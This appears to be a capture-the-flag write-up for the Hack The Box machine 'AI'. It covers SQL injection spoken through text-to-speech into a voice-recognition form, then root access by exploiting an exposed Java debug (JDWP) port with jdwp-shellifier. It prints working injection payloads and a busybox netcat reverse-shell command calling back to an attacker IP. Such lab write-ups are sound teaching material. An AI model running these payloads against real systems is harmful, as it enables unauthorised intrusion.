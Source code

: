 ```yaml
---
title: "AI - HackTheBox"
date: 2020-01-25T19:00:00+01:00
tags: []
---
```

AI is a machine from Hack The Box with an exploitation method that I've never
seen before.

Let's start with the usual nmap scan:
```
$ nmap -A -T4 10.10.10.163
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 14:57 EST
Nmap scan report for 10.10.10.163
Host is up (0.059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While visiting the website, the only thing that might be interesting is in
[ai.php](http://10.10.10.163/ai.php):
![](/images/hackthebox/ai/upload.png)

After uploading a random wav file found on the internet, we get this output:
![](/images/hackthebox/ai/randomfile.png)

It looks like there's an online service that does voice recognition and uses
its output to perform a query, and given that in our text there are single
quotes (for example in the verb *wouldn't*), a SQL error has been triggered.

Also, running a web discovery tool allows us to find
[intelligence.php](http://10.10.10.163/intelligence.php):
```
$ gobuster dir -q -r -w lists/raft-small-words-lowercase.txt -x php,html -s 200 -u http://10.10.10.163
/index.php (Status: 200)
/contact.php (Status: 200)
/db.php (Status: 200)
/about.php (Status: 200)
/. (Status: 200)
/ai.php (Status: 200)
/intelligence.php (Status: 200)
```

Here is the page:
![](/images/hackthebox/ai/instructions.png)

We can try to exploit this by recording an audio ourself or using text to speech
services. I will use [text2speech](https://www.text2speech.org/) with these
options:
![](/images/hackthebox/ai/text2speech.png)

Following the guide and after many, many attempts, I've come up with the
following payload:
```
open single quote space union select space username from users comment database
```

And the result is:
![](/images/hackthebox/ai/username.png)

And this payload:
```
open single quote space union select password from users comment database
```

gives us the password:
![](/images/hackthebox/ai/password.png)

Let's try to connect with SSH:
```
alexa@AI:~$ wc -c user.txt
33 user.txt
```
And there's the user flag!

## Privilege escalation

Running the usual recon commands, we can see with `ps aux` an interesting
process running as root:
```
root     128367 21.1  4.7 3108796 95460 ?       Sl   16:06   0:03 /usr/bin/java
-Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties
-Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
-Djdk.tls.ephemeralDHKeySize=2048
-Djava.protocol.handler.pkgs=org.apache.catalina.webresources
-Dorg.apache.catalina.security.SecurityListener.UMASK=0027
-agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n
-Dignore.endorsed.dirs= -classpath
/opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar
-Dcatalina.base=/opt/apache-tomcat-9.0.27
-Dcatalina.home=/opt/apache-tomcat-9.0.27
-Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp
org.apache.catalina.startup.Bootstrap start
```

A quick google search gives us
[this](https://github.com/IOActive/jdwp-shellifier) exploit that allows
arbitrary code execution. After downloading it on our machine, we have to
forward the port 8000 on the remote machine to our machine, because the service
is running on localhost so we cannot reach it from outside. Let's do so with
`ssh -L 8000:localhost:8000 alexa@10.10.10.163`. Let's start a netcat listener
and run the exploit:
```
$ ./jdwp-shellifier.py -t localhost -p 8000 --cmd 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Targeting 'localhost:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=b8f
[+] Found Runtime.getRuntime(): id=7ff73403e880
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1
[+] Selected payload 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Command string object created id:c34
[+] Runtime.getRuntime() returned context id:0xc35
[+] found Runtime.exec(): id=7ff73403e8b8
[+] Runtime.exec() successful, retId=c36
[!] Command successfully executed
```


And we got a shell as root! Let's get the flag:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.163.
Ncat: Connection from 10.10.10.163:45658.
whoami
root
wc -c /root/root.txt
33 /root/root.txt
```

Quick and easy, thanks for reading!
